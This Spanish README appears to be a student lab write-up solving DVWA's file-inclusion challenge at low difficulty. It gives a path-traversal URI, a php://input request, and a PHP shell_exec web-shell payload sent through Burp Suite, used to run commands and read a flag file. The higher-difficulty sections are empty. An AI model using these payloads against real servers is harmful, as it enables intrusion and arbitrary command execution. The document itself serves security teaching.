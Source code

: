 # LFI

Local File Inclusion (LFI) es una vulnerabilidad que permite a un atacante leer archivos arbitrarios en el servidor. Esto puede ser utilizado para leer archivos sensibles como `config.php` o para leer el código fuente de la aplicación.

## Bajo

Sabiendo que el archivo `fi.php` existe, podemos intentar leerlo con la siguiente URI:
```
http://localhost/DVWA/vulnerabilities/fi/?page=../../hackable/flags/fi.php
```

![Path Traversal](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FI/assets/primerPaso.png)
Como se puede observar en la imágen, el archivo `fi.php` es leído y mostrado en la página aunque no hemos conseguido leer las 5 citas que contiene.

Para intetar leer el archivo completo, podemos intentar ejecutar commandos en el servidor, para ello nos ayudaremos de Burp Suite, que nos permitirá modificar la petición que se envía al servidor.

Como primera prueba realizamos una petición GET a la URI para obtener información sobre el servidor:

> **Nota:** Burp Suite debe tener la opcion `Intercept is on` activada para poder modificar las peticiones.

```
http://localhost/DVWA/vulnerabilities/fi/?page=php://input&cmd=id
```

una vez interceptada la petición, podemos modificarla para que se envíe un comando al servidor, para ello añadimmos el siguiente comando al final de la petición y a continuación pulsamos `Forward`:

```php
<?php echo shell_exec($_GET['cmd']); ?>
```

![intercept](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FI/assets/intercept.png)

como podemos observar en la imágen, el servidor nos devuelve la información del usuario que está ejecutando el servidor web.

![forward](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FI/assets/forward.png)

Una vez comprobado podemos ejecutar comandos en el servidor, podemos intentar leer el archivo `fi.php` de la misma manera:

```
http://localhost/DVWA/vulnerabilities/fi/?page=php://input&cmd=cat%20/var/www/html/DVWA/hackable/flags/fi.php
```

![challenge](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FI/assets/challenge.png)

## Medio

## Alto

## Imposible


## referencias

- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)
- [HTB Academy](https://academy.hackthebox.com/module/77/section/725)

